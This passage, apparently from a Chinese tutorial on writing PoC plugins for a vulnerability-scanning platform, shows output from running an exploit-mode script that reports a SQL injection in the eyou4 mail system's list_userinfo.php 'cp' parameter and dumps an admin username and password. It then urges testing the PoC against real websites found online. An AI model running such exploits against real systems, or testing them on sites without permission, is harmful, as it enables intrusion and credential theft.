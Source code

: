 ```bash
$ python eyou4_list_userinfo_sql_injection.py --url http://www.target.com --mode exploit
[POC 编写者]
    ['secnium']
[风险]
    目标 http://www.target.com 存在 eyou4 list_userinfo.php sql 注入漏洞
[详细说明]
    eyou4 邮件系统中 /php/bill/list_userinfo.php 中的 cp 参数存在注入
[程序返回]
    目标 http://www.target.com 存在sql注入, 用户: admin, 密码: password
[危害等级]
    高
[漏洞类别]
    注入
[相关引用]
    * 相关案例: http://www.anquan.us/static/bugs/wooyun-2014-058014.html
```

攻击模式执行成功!!! 我们获取到了目标网站的管理员账号密码。

提交POC
=========================
既然都那么辛苦的写完了, 为什么不去提交一下呢? 在提交前希望能在互联网上找到几个实际例子进行测试, 确认 POC 没有误报的情况。

提交地址: [https://u2.secnium.cn/#/plugins](https://u2.secnium.cn/#/plugins)



